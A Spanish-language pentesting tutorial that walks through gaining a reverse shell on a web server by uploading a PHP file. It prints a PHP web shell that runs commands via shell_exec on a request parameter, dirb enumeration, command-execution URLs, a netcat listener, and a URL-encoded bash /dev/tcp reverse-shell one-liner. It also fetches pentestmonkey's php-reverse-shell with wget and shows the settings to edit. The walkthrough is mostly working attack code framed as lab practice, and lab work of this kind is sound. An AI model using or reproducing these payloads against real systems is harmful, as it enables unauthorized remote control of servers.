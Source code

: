 ### Reverse Shell con php

- Lo ideal es encontrar un sitio web vulnerable (Vulhub)
- El sitio tiene una subida de archivos de cualquier tipo:

En el btn de selección de archivos, subimos el archivo con el código php para la ejecución del código:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre";
?>
```

Podemos utilizar una herramienta llamada `dirb` para encontrar directorios web

En Kali lo siguiente:

```sh
(root@kali)- [/home/kali/Desktop]
-> dirb http://elsitioweb
...

====> DIRECTORY: http://elsitioweb/uploads/
```

- Copiamos esa ruta... la llevamos a la url
- Ubicamos el archivo malicioso, copiamos el nombre - lo agregamos a la URL
- Nos queda lo siguiente en la URL:

```sh
-> http://elsitioweb/uploads/pwned.php?cmd=whoami
-> http://elsitioweb/uploads/pwned.php?cmd=id
-> http://elsitioweb/uploads/pwned.php?cmd=ls
```

Y ya puedo ejecutar comando desde la url.

Solo faltaría enviar un comando que conecte con nuestro servidor:

```sh
$ ifconfig
# nos devuelve nuestra IP

$ nc -nlvp 443 # cualquier puerto
```

Necesitamos que vaya el comando en la URL:

```sh
$ bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'
# esto asi, no nos sirve
```

Podemos capturarlo con Burp Suite:

- En la sección de `Decoder`
- Pegamos el comando : `bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'`
- En la parte del lado derecho seleccionamos `Encode as...` - `URL`
- Nos entrega un resultado y eso lo pegamos en la URL: 

```sh
$ http://elsitioweb/uploads/pwned.php?cmd=AQUIELCOMANDODEBURPSUITE
```

Con esto tenemos la conexión con la máquina objetivo.

### Plan B:

Nos ahorramos todo esto y buscamos el repositorio en:

`pentestmonkey/php-reverse-shell`

Link: [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shel)

Nos traemos el archivo: `php-reverse-shell.php` con raw

Y con:

```sh
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

$ ls
```

Editamos el archivo:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127...';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
